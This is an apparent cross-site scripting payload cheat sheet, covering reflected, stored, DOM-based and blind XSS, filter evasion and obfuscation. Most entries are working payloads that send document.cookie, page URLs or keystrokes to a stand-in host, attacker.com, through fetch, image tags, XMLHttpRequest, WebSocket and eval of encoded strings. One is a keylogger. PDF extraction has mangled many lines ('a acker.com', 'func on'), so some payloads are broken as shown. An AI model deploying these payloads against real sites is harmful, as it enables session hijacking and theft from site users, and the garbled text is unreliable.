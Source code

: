 **Reflected Cross-Site Scrip ng (XSS)**

1. Basic alert: 
<script>alert('XSS');</script> 
1. Stealing Cookies: 
<script>fetch('h p://a acker.com/log?cookie=' + document.cookie);</script> 
2. Redirec ng the User: 

<script>window.loca on='h p://a acker.com'</script> 

3. Bypassing Filters (using encoded characters): 

<img src=x onerror=alert('XSS')> 

Or encoded version: 

%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E 

4. Using an Event Handler: 

<a href="#" onclick="alert("XSS")">Click me!</a> 

5. Advanced Payload (using IIFE): 

<script>(()=>{alert('XSS')})()</script> 

----

**Stored Cross-Site Scrip ng (Stored XSS)** 

1. Simple Alert Box: 
<script>alert('XSS');</script> 
2. Stealing Cookies: 
<script>fetch('h ps://a acker.com/log?cookie=' + document.cookie);</script> 
3. Session Hijacking using Image Tag: 
<img src="x" onerror="fetch('h ps://a acker.com/log?cookie='+document.cookie)"> 
4. Automa c Redirec on 
<script>window.loca on='h ps://a acker.com'</script> 
Advanced Payloads 
1. Bypassing Filters (using JavaScript event handlers): 
<svg onload=alert('XSS')> 
2. Using HTML A ributes: 
<input type="text" value="" onfocus="alert('XSS')" autofocus> 
3. Obfuscated JavaScript: 
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script> 
4. IIFE (Immediately Invoked Func on Expression): 
<script>(func on(){alert('XSS')})()</script> 

---
**DOM-based Cross-Site Scrip ng (DOM XSS)**
1. URL Parameter Exploita on 
h p://example.com/page.html?name=<script>alert('XSS')</script> 
2. Loca on Hash Manipula on 
h p://example.com/page.html#<img src=x onerror=alert('XSS')> 
3. document.referrer Exploita on 
<a href="h p://example.com/vulnerablePage.html">Go to vulnerable site</a> 
4. Using localStorage 
localStorage.setItem('user', '<img src=x onerror=alert("XSS")>'); 
loca on.reload(); 
5. Bypassing Filters with eval() 
h p://example.com/page.html?data=alert('XSS') 
6. loca on.search with innerHTML 
h p://example.com/page.html?message=<svg/onload=alert('XSS')> 

---

**Basic Blind XSS Payloads **
1. Basic Exfiltra on using <script> 
<script>new Image().src='h ps://a acker.com/log?cookie='+document.cookie;</script> 
2. Using fetch() for Stealth 
<script> 
fetch('h ps://a acker.com/log', { 
method: 'POST', 
mode: 'no-cors', 
body: 'cookie=' + document.cookie + '&url=' + loca on.href 
}); 
</script> 
3. Stealing Data with an img tag 
<img src="h ps://a acker.com/log?data=" + document.cookie> 
Advanced Blind XSS Payloads 
1. Using XMLH pRequest 
<script> 
var xhr = new XMLH pRequest(); 
xhr.open("GET", "h ps://a acker.com/log?cookie=" + document.cookie, true); 
xhr.send(); 
</script> 
2. DOM Exfiltra on with window.onunload 
<body onunload="fetch('h ps://a acker.com/log?cookie=' + document.cookie)"> 
3. Keylogger Payload 
<script> 
document.onkeypress = func on(e) { 
fetch('h ps://a acker.com/keys?key=' + String.fromCharCode(e.which)); 
}; 
</script> 

---

**Obfuscated and Filter Evasion Techniques**
1. Encoded Characters 
<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,
 97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,111,111,107,105,101,61
 ,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));</script> 
2. Bypassing Filters with SVG 
<svg onload="fetch('h ps://a acker.com/log?cookie='+document.cookie)"> 
3. Using setTimeout 
<script>setTimeout(func on(){fetch('h ps://a acker.com/log?cookie='+document.cookie)}, 2000);</script> 

---

**Stealthy Payloads for Non-Script Contexts**
1. Using an HTML Attribute 
<iframe srcdoc="<script>new 
Image().src='https://attacker.com/log?cookie='+document.cookie;</script>"></iframe> 
2. CSS-Based Payload 
<style>@import 'https://attacker.com/log?cookie='+document.cookie;</style> 
3. Exfiltra ng via WebSocket 
<script> 
let ws = new WebSocket("wss://a acker.com/socket"); 
ws.onopen = func on() { 
ws.send(document.cookie); 
}; 
</script>

---
